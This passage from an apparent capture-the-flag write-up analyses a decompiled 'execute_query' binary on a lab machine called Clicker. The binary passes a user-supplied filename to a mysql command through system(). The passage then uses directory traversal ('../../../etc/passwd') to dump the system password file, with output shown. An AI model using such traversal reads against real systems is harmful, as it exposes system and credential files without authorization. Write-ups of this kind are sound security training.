 ```
      cmd_str[1] = 'u'; //           --password='clicker_db_password'
      cmd_str[2] = 's'; //           clicker -v < \0
      cmd_str[3] = 'r';
...[snip]...
      cmd_str[78] = '<';
      cmd_str[79] = ' ';
      cmd_str[80] = '\0';
      strlen_res = strlen(local_78);
      strlen_res2 = strlen(filename_buffer);
      filename_buffer = (char *)calloc(strlen_res2 + strlen_res + 1,1);
      strcat(filename_buffer,local_78);
      strcat(filename_buffer,__dest);
      system(filename_buffer);
    }
    else {
      puts("File not readable or not found");
    }
    return_val = 0;
  }
LAB_001015e1:
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return return_val;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}

```

It gets a filename, appends it to the `mysql` command so that it’s pass as input, and runs it with `-v` which shows the file.

I’ll also note that while case 0 is a failure, the default case runs with `argv[2]` as the filename.

### File Read

I’ll try to read a file using `execute_query` with type 223 (or any other input that matches the default case) and directory traversal to get the file I want. It’s not able to read `user.txt`:

```

www-data@clicker:/opt/manage$ ./execute_query 223 ../user.txt     
File not readable or not found

```

But `/etc/passwd` works:

```

www-data@clicker:/opt/manage$ ./execute_query 223 ../../../etc/passwd
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```